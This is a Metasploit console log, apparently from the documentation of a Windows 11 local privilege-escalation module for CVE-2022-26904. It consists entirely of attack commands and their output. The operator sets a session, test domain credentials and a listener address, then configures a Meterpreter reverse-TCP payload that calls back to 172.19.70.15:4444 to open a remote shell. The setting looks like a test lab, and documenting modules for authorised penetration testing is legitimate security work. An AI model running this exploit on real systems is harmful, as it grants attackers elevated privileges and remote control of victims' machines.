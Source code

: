 ```
   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   LOGINDOMAIN    .                yes       Domain that the LOGINUSER belongs to. Ensures we log into the right domain.
   LOGINPASSWORD                   yes       Password for the secondary normal privileged user to log in as
   LOGINUSER                       yes       Username of the secondary normal privileged user to log in as. Cannot be the same a
                                             s the current user!
   SESSION                         yes       The session to run this module on


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 11


msf exploit(windows/local/cve_2022_26904_superprofile) > set LOGINDOMAIN TESTINGDOMAIN
LOGINDOMAIN => TESTINGDOMAIN
msf exploit(windows/local/cve_2022_26904_superprofile) > set LOGINUSER normal
LOGINUSER => normal
msf exploit(windows/local/cve_2022_26904_superprofile) > set LOGINPASSWORD normal1
LOGINPASSWORD => normal1
msf exploit(windows/local/cve_2022_26904_superprofile) > set SESSION 1
SESSION => 1
msf exploit(windows/local/cve_2022_26904_superprofile) > set LHOST 172.1
set LHOST 172.17.0.1    set LHOST 172.18.0.1    set LHOST 172.19.70.15
msf exploit(windows/local/cve_2022_26904_superprofile) > set LHOST 172.19.70.15
LHOST => 172.19.70.15
msf exploit(windows/local/cve_2022_26904_superprofile) > show options

Module options (exploit/windows/local/cve_2022_26904_superprofile):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   LOGINDOMAIN    TESTINGDOMAIN    yes       Domain that the LOGINUSER belongs to. Ensures we log into the right domain.
   LOGINPASSWORD  normal1          yes       Password for the secondary normal privileged user to log in as
   LOGINUSER      normal           yes       Username of the secondary normal privileged user to log in as. Cannot be the same a
                                             s the current user!
   SESSION        1                yes       The session to run this module on


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.19.70.15     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```